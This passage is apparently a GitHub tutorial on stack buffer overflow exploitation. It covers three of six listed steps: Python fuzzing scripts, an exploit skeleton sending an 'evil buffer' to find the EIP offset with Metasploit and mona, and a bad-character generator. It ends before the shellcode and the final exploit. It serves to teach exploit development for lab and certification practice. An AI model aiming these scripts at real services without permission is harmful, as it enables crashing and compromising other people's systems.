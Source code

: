 # Steps:
1. Crash The Application
2. Find EIP and Control ESP
3. Identify Bad Characters 
4. Find JMP ESP
5. Generate Shell Code
6. Exploit

# 1. Crash the application 
Create a file called fuzz.py The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application. **Choose one of these versions.**

### Skeleton Version 1

```Python
#!/usr/bin/python 
import socket,sys

ip = '127.0.0.1'
port = 9999
buffer = []

try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip,port))
	s.recv(1024)			
	s.send(buffer + '\r\n')
except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
finally:
	s.close()
```

### Skeleton Version 2

```Python
    #!/usr/bin/python 
    import socket, time, sys

    ip = "127.0.0.1"
    port = 9999
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)
```

# 2. Find EIP and control ESP

We are able to establish that we are able to crash the application with a relative number of bytes. Now we need to identify the exact number bytes that it takes to fill the buffer. Metasploit provides a ruby script called pattern_create.rb that will create a unique string with no repeating characters. After we send this payload to the buffer, it will display what the offset is which we'll use for the next step in finding the EIP.

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 666 (Change 666 to the value that crashed the server) 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2...
```

Create a new script called findEIP.py
You take the unique string character created and that becomes your new buffer in findEIP.py 


### Skeleton

```Python
#!/usr/bin/python 
import socket

ip = "10.0.0.1"
port = 21

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2..."
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Send that payload to the application, make sure it crashed and grab the EIP value in the debugger.

Now, we have 3 methods to find the offset:


## Method 1

Use mona's findmsp command, with the distance argument set to the pattern length.

    ...
    !mona findmsp -distance 666
    
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    **EIP contains normal pattern : 0x78413778 (offset 112)**
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...


## Method 2

We will now use a second script from Metasploit called pattern_offset.rb. What this script will do is take that value and seeing exactly where it exists in the buffer length we designate, showing us the point where the buffer will crash. 

```
root@gh0x0st:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q pasteESPvaluehere -l 666
[*] Exact match at offset 112
```
## Method 3

You can also use these web generator to find the offset:
1. https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
2. https://wiremask.eu/tools/buffer-overflow-pattern-generator/


### 3. Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

```
    !mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff. Called badchars.py

```
    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()
```

